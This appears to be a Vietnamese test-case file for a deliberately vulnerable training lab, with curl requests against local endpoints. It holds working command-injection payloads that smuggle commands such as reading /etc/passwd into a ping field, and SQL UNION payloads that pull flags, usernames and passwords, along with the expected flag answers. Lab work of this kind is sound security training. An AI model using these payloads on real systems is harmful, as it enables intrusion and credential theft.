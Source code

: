 # 🧪 Test Cases - Security Lab

## ✅ Test Lab Command Injection

### Test 1: Ping bình thường
```bash
curl -X POST http://localhost:3000/api/ping \
  -H "Content-Type: application/json" \
  -d '{"ip":"8.8.8.8"}'
```

**Kết quả mong đợi:** Hiển thị kết quả ping

### Test 2: Whoami
```bash
curl -X POST http://localhost:3000/api/ping \
  -H "Content-Type: application/json" \
  -d '{"ip":"8.8.8.8; whoami"}'
```

**Kết quả mong đợi:** Hiển thị username

### Test 3: List files
```bash
curl -X POST http://localhost:3000/api/ping \
  -H "Content-Type: application/json" \
  -d '{"ip":"8.8.8.8; ls -la"}'
```

**Kết quả mong đợi:** Danh sách file

### Test 4: Get FLAG
```bash
curl -X POST http://localhost:3000/api/ping \
  -H "Content-Type: application/json" \
  -d '{"ip":"8.8.8.8; cat secret.txt"}' | jq -r '.output'
```

**Kết quả mong đợi:** `FLAG{C0mm4nd_1nj3ct10n_M4st3r_2024}`

### Test 5: Multiple commands
```bash
curl -X POST http://localhost:3000/api/ping \
  -H "Content-Type: application/json" \
  -d '{"ip":"8.8.8.8; whoami && pwd && date"}'
```

### Test 6: Read /etc/passwd
```bash
curl -X POST http://localhost:3000/api/ping \
  -H "Content-Type: application/json" \
  -d '{"ip":"8.8.8.8; head -5 /etc/passwd"}'
```

## ✅ Test Lab SQL Injection

### Test 1: Search bình thường
```bash
curl "http://localhost:3000/api/search?q=SQL"
```

### Test 2: Phát hiện lỗ hổng
```bash
curl "http://localhost:3000/api/search?q=%27"
```

**Kết quả mong đợi:** Lỗi SQL syntax

### Test 3: Union select
```bash
curl "http://localhost:3000/api/search?q=%27%20UNION%20SELECT%201,2--"
```

### Test 4: Get FLAG
```bash
curl "http://localhost:3000/api/search?q=%27%20UNION%20SELECT%20id,%20flag%20FROM%20secret--" | jq -r '.results[] | select(.title | contains("FLAG"))'
```

**Kết quả mong đợi:** `FLAG{SQL_1nj3ct10n_M4st3r}`

### Test 5: Get users
```bash
curl "http://localhost:3000/api/search?q=%27%20UNION%20SELECT%20username,%20password%20FROM%20users--"
```

### Test 6: List tables
```bash
curl "http://localhost:3000/api/search?q=%27%20UNION%20SELECT%201,%20name%20FROM%20sqlite_master%20WHERE%20type=%27table%27--"
```

## 🌐 Test Frontend

### Test trang chủ
```bash
curl -s http://localhost:3000 | grep -o "SQL Injection\|Command Injection" | head -2
```

### Test lab SQL Injection
```bash
curl -s http://localhost:3000/lab/sqli | grep -o "SQL Injection Lab"
```

### Test lab Command Injection
```bash
curl -s http://localhost:3000/lab/cmdi | grep -o "Command Injection Lab"
```

## 📊 Kết quả Test

Chạy tất cả test:
```bash
bash -c '
echo "=== SECURITY LAB TEST SUITE ==="
echo ""
echo "Test 1: SQL Injection - Get FLAG"
curl -s "http://localhost:3000/api/search?q=%27%20UNION%20SELECT%20id,%20flag%20FROM%20secret--" | jq -r ".results[] | select(.title | contains(\"FLAG\")) | .title"
echo ""
echo "Test 2: Command Injection - Get FLAG"  
curl -s -X POST http://localhost:3000/api/ping -H "Content-Type: application/json" -d "{\"ip\":\"8.8.8.8; cat secret.txt\"}" | jq -r ".output" | grep "FLAG"
echo ""
echo "=== ALL TESTS PASSED ==="
'
```

## 🎯 Expected Results

### SQL Injection FLAG
```
FLAG{SQL_1nj3ct10n_M4st3r}
```

### Command Injection FLAG
```
FLAG{C0mm4nd_1nj3ct10n_M4st3r_2024}
```
